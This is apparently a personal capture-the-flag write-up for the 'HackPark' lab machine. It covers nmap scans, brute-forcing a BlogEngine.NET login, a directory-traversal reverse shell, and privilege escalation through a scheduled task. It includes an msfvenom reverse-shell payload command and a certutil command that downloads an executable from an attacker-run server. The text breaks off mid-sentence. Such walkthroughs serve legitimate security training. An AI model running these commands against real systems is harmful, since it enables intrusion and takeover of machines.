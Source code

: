 # HackPark


## Nmap Scan
```nmap -sC -sV -v -oN scans/initial 10.10.16.166```
```nmap -A -p- -v -oN scans/all 10.10.16.166```
```
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack
3389/tcp open  ms-wbt-server syn-ack
```
```
PORT     STATE SERVICE    REASON  VERSION
80/tcp   open  tcpwrapped syn-ack
| http-robots.txt: 6 disallowed entries
| /Account/*.* /search /search.aspx /error404.aspx
|_/archive /archive.aspx
|_http-title: hackpark | hackpark amusements
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
3389/tcp open  tcpwrapped syn-ack
| ssl-cert: Subject: commonName=hackpark
| Issuer: commonName=hackpark
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-12-26T18:12:44
| Not valid after:  2022-06-27T18:12:44
| MD5:   5827 0f69 c2c5 5fc3 43f2 136c b217 9981
| SHA-1: 6a84 7d34 35f2 fc36 bfea 2f3c c19d fbba ca29 f6be
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQMupxsK4SqKZP49v/kgQh5TANBgkqhkiG9w0BAQUFADAT
| MREwDwYDVQQDEwhoYWNrcGFyazAeFw0yMTEyMjYxODEyNDRaFw0yMjA2MjcxODEy
| NDRaMBMxETAPBgNVBAMTCGhhY2twYXJrMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEA1qEdVXjeLqQS3hsfesyH8qCVnYHtjkpbENBDZnAlSkeAEVkNPfgA
| 8SgA97oep561w/fVwJT+ZI++2NGRSG1Nj4Bp8h+RQhQFBW7GeXtnPw6TcPUasatj
| iUKHXs2qS8sCttGZbXgqCjYikwG1MKnxWuZugEFySr9t4PXfS2dM6ewGJXPTxYSp
| E4Ysl5AuY/eSDD3XqLupu9C78hlPdnzkBgdfzr0XbNvwiG+hD6EIQvLRpDJ9qSxY
| 3nclonv1YZFXxCtdwkRcb0/FK/d3JrJbKcSypzwtTjXkYUZy+BHfMCwDzOlSa7FE
| 9NGgODJrdyiDi3/THE9752uAyF7rx0/HBQIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBALhj+1CfNUGR
| aeIa+xhptheublS62KJbx6ety1UoWpz1E7hd/+vPbYHZ6s3ikpIxFhXPcv7mMpBn
| Fnwic6lcwxH5HmXJVTWfj/DHK4ViTLfo005aeeM1+HytNpvko0kdbKAjDby6Ag2e
| T9zvKWMc2MNmP0cGfARau4khdgmGx+5bNlIRd+MhjX/kNtiAN+CYxXrZXkZyFzOT
| WgpVncXfL0QEHDjcSFXxfJrfSU+alX3FjhB0rB81dxFLx4Ucc7A3eVeOvrnMx7lB
| qcTUeP+C5x9ASBVwYniqE1LGuI074gjwjlSq/TNId4IFR37IN0a9lGtLruPTwDu5
| eXwLOwN0wTk=
|_-----END CERTIFICATE-----
| rdp-ntlm-info:
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2021-12-27T18:17:59+00:00

Host script results:
|_clock-skew: 0s
```


## Eumeration

Login page at: `/Account/login.aspx`

Brute force shows admin and password: `admin:1qaz2wsx`

About page shows website is running BlogEngine.net version 3.3.6.0

Searchsploit results:
```
$ searchsploit BlogEngine.NET 3.3.6
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                              | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution              | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                         | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution         | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                      | aspx/webapps/47014.py
```

aspx/webapps/46353.cs seems to be applicable!!

## Exploitation

Uses a Directory Traversal (LFI?) vulnerability and is executed as a theme

The POC code needs to be changed to our IP and port and saved as PostView

Uploaded to the server using the file upload

Going to this URL executes the reverse shell: `http://$IP/?theme=../../App_Data/files`

Attempted to catch shell with pwncat, windows does not work well :(

Second attempt with MSF multi/handler worked!!

## Privilege Escalation w/ Metasploit

Running as "iis apppool\blog"

Upgrade to meterpreter shell:
```msfvenom -p windows/meterpreter/reverse_tcp-a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o mshell.exe```
Run Python HTTP server, get the shell with the batch command (Make sure we're in a dir we can write in, ex. C:\Users\Public\Documents):
```certutil -urlcache -split -f http://IP:8000/mshell.exe mshell.exe```
Use exploit/multi/handler to catch the shell, and we have meterpreter!

PS shows Windows Scheduler is running, what's it scheduled to run??

In "C:\Program Files (x86)\SystemScheduler" Message.exe seems to be running every 30 seconds (from log file in \events)

Use meterpreter to upload the shell we made with MSFvenom, then open another multi/handler

And we have a root shell!

## Privilege Escalation w/o Metasploit

Instead of uploading a meterpreter shell, upload a normal windows/shell_reverse_tcp

Host winPEAS.bat in the same directory and run the certutil command to grab it

Run it and 